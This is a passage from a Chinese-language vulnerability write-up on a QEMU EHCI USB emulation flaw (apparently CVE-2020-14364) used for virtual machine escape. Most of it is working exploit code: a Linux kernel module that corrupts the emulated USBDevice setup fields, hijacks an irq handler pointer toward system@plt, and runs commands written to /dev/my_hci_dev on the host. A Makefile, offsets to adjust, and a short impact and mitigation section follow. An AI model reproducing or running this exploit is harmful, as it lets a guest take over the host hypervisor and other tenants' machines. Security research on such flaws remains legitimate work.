	*((uint32_t*)(data_buf+SETUP_INDEX_OFFSET-8)) = 2;//make USBDevice Struct setup_state = SETUP_STATE_DATA!!!!!!
	*((uint32_t*)(data_buf+SETUP_INDEX_OFFSET-4)) = irq_offset+8+8;//make USBDevice Struct setup_len > setup_index!!!!!!
	*((uint32_t*)(data_buf+SETUP_INDEX_OFFSET)) = irq_offset - (SETUP_INDEX_OFFSET + 4);
	run_hci();
	
	reset_hci();
	qtd->token = QTD_TOKEN_ACTIVE;
	set_field(&qtd->token,0,QTD_TOKEN_PID);//make function ehci_get_pid return USB_TOKEN_OUT
	
	//ehci_init_transfer function
	set_field(&qtd->token,0,QTD_TOKEN_CPAGE);
	set_field(&qtd->token,8,QTD_TOKEN_TBYTES);
	
	run_hci();//

}

static void recover_irq_addr(void)
{
	uint64_t *pirq_addr = (uint64_t*)data_buf;
	
	usb_set_len(SETUP_INDEX_OFFSET+4);
	
	reset_hci();
	
	qtd->token = QTD_TOKEN_ACTIVE;
	set_field(&qtd->token,0,QTD_TOKEN_PID);//make function ehci_get_pid return USB_TOKEN_OUT
	
	//ehci_init_transfer function
	set_field(&qtd->token,0,QTD_TOKEN_CPAGE);
	set_field(&qtd->token,SETUP_INDEX_OFFSET+4,QTD_TOKEN_TBYTES);
	//devil irq
	*pirq_addr = original_irq_addr;//get_usbdevice_data_buf_addr()+256;
	*((uint32_t*)(data_buf+SETUP_INDEX_OFFSET-8)) = 2;//make USBDevice Struct setup_state = SETUP_STATE_DATA!!!!!!
	*((uint32_t*)(data_buf+SETUP_INDEX_OFFSET-4)) = irq_offset+8+8;//make USBDevice Struct setup_len > setup_index!!!!!!
	*((uint32_t*)(data_buf+SETUP_INDEX_OFFSET)) = irq_offset - (SETUP_INDEX_OFFSET + 4);
	run_hci();
	
	reset_hci();
	qtd->token = QTD_TOKEN_ACTIVE;
	set_field(&qtd->token,0,QTD_TOKEN_PID);//make function ehci_get_pid return USB_TOKEN_OUT
	
	//ehci_init_transfer function
	set_field(&qtd->token,0,QTD_TOKEN_CPAGE);
	set_field(&qtd->token,8,QTD_TOKEN_TBYTES);
	
	run_hci();//
}

static long my_hci_dev_write(struct file *filp,const char __user *buf,size_t size,loff_t *ppos)
{
	char *cmd;
	cmd = kmalloc(512,GFP_KERNEL | __GFP_ZERO);
	if(!cmd) return -ENOMEM;
	
	if(size > 500) return 0;

	if(copy_from_user(cmd,buf,size))
			return -EFAULT;

	construct_devil_irq(cmd);
	recover_irq_addr();
	printk("%s: %s\n",__func__,cmd);
	return size;
}

static struct file_operations dev_fops = {
	.write = my_hci_dev_write,
};

static struct miscdevice my_hci_dev = {
	.minor = MISC_DYNAMIC_MINOR,
	.name  = "my_hci_dev",
	.fops   = &dev_fops,
};

static int __init my_hci_init(void)
{
	int r;
	mmio = (unsigned char *)ioremap(mmio_addr,mmio_size);
	if(!mmio){
		pr_err("%s: remap error\n",__func__);
		goto remap_err ;
	}
	
	qtd = kmalloc(sizeof(EHCIqtd),GFP_DMA|GFP_KERNEL);
	if(qtd == NULL){
		pr_err("%s: kmalloc qtd error\n",__func__);
		goto qtd_err;
	}

	qh = kmalloc(sizeof(EHCIqh),GFP_DMA|GFP_KERNEL);
	if(qh == NULL){
		pr_err("%s: kmalloc qh error\n",__func__);
		goto qh_err;
	}
	
	data_buf = kmalloc(DATA_BUF_SIZE,GFP_DMA|GFP_KERNEL);
	if(data_buf == NULL){
		pr_err("%s: kmalloc data_buf error\n",__func__);
		goto buf_err;
	}

	r = misc_register(&my_hci_dev);
	if(r){
		pr_err("%s: misc device register failed\n",__func__);
		goto out_unreg;
	}else{
		printk("%s: misc device register success\n",__func__);
	}
	
	init();
	
	printk("USBDevice:0x%llx\n",get_usbdevice_addr());
	printk("USBDevice_data_buf:0x%llx\n",get_usbdevice_data_buf_addr());
	printk("USBPort:0x%llx\n",get_usbport_addr());
	printk("EHCIState:0x%llx\n",get_ehcistate_addr());
	printk("ehci_bus_ops_addr:0x%llx\n",get_ehci_bus_ops_addr());
	
	printk("QEMU base addr:0x%llx\n",get_qemu_base_addr());
	
	return 0;

out_unreg:
	kfree(data_buf);
buf_err:
	kfree(qh);
qh_err:
	kfree(qtd);
qtd_err:
	iounmap(mmio);
remap_err:
	return -1;
}

static void __exit my_hci_exit(void)
{
	misc_deregister(&my_hci_dev);
	kfree(data_buf);
	kfree(qh);
	kfree(qtd);
	iounmap(mmio);
	printk("%s: my_hci_exit\n",__func__);
}

module_init(my_hci_init);
module_exit(my_hci_exit);
MODULE_LICENSE("GPL");
```

```makefile
obj-m := my_hci.o

all:
	make -C /usr/src/linux-headers-`uname -r` M=`pwd` modules
clean:
	make -C /usr/src/linux-headers-`uname -r` M=`pwd` clean
```

需要修改:
```c
static unsigned long mmio_addr = 0xfebd5000; //为EHCI的MMIO地址，可以通过lspci -v 查看，（注意，由于我是手动创建的一个EHCI，而Q35芯片组会默认创建一个，要注意区分他们，不是ICH9中的哪个EHCI）
static unsigned long mmio_size = 0x1000;//EHCI的MMIO的大小
static unsigned long port_idx = 2;//USB 端口号
static int companion  = 0;// 1 for ehci_bus_ops_companion,0 for ehci_bus_ops_standalone（手动创建的usb ehci为0，默认创建为1）
static unsigned long ops_standalone_addr = 0x00000000011d0e40 ;//ehci_bus_ops_standalone 偏移
static unsigned long ops_companion_addr = 0x00000000011d0e30;//ehci_bus_ops_companion 偏移
uint64_t system_call_addr = 0x2c1b20; //system@plt的偏移
```

还得根据你编译的QEMU版本，修改get_*_addr函数中的字段偏移为正确值。

注意：由于会多次调用irq_handler，会导致一条命令执行多次。

# 演示

编译模块代码，然后加载，其会在/dev中创建一个my_hci_dev的设备文件，往里面写命令即可。


# 危害分析

不影响主流的公有云。

比如在某VPS厂商上

```
[root /]# virt-what
kvm
[root /]# lspci
00:00.0 Host bridge: Intel Corporation 440FX - 82441FX PMC [Natoma] (rev 02)
00:01.0 ISA bridge: Intel Corporation 82371SB PIIX3 ISA [Natoma/Triton II]
00:01.1 IDE interface: Intel Corporation 82371SB PIIX3 IDE [Natoma/Triton II]
00:01.3 Bridge: Intel Corporation 82371AB/EB/MB PIIX4 ACPI (rev 03)
00:02.0 VGA compatible controller: Cirrus Logic GD 5446
00:03.0 Unclassified device [00ff]: Red Hat, Inc. Virtio memory balloon
00:04.0 Communication controller: Red Hat, Inc. Virtio console
00:05.0 SCSI storage controller: Red Hat, Inc. Virtio SCSI
00:06.0 Communication controller: Red Hat, Inc. Virtio console
00:07.0 Communication controller: Red Hat, Inc. Virtio console
00:12.0 Ethernet controller: Red Hat, Inc. Virtio network device
00:13.0 Ethernet controller: Red Hat, Inc. Virtio network device
00:1e.0 PCI bridge: Red Hat, Inc. QEMU PCI-PCI bridge
00:1f.0 PCI bridge: Red Hat, Inc. QEMU PCI-PCI bridge
```

VPS厂商为了安全性一般只会给你提供必要的块设备、网络设备、console设备，而且还是半虚拟化的，根本没有USB。

私有云或个人用户可能由于缺乏安全意思，会包含了一些不必要的设备模拟（比如这个USB）。

所以该洞的目标主要是私有云或个人用户！

私有云用户可以考虑使用热迁移，将机器上的所有虚拟机迁移，然后修复该漏洞。

个人用户可以考虑直接修复。

# 参考资料

ISC2020-Qemu-kvm 和 ESXI虚拟机逃逸实例分享（分享人：肖伟）

https://isc.360.com/2020/detail.html?vid=108&id=17

QEMU CVE-2020-14364 漏洞分析（含POC演示）

https://www.freebuf.com/vuls/247829.html

几种USB控制器类型：OHCI，UHCI，EHCI，XHCI

http://smilejay.com/2012/10/usb_controller_xhci/

qemu: usb存储设备仿真

https://blog.csdn.net/kingtj/article/details/82952783

Host控制器之EHCI

https://wenku.baidu.com/view/dc86fd5b3b3567ec102d8ad6.html

EHCI spec

https://www.intel.com/content/dam/www/public/us/en/documents/technical-specifications/ehci-specification-for-usb.pdf

KVM 介绍

https://www.cnblogs.com/sammyliu/p/4543110.html

KVM源代码分析1:基本工作原理

http://oenhan.com/kvm-src-1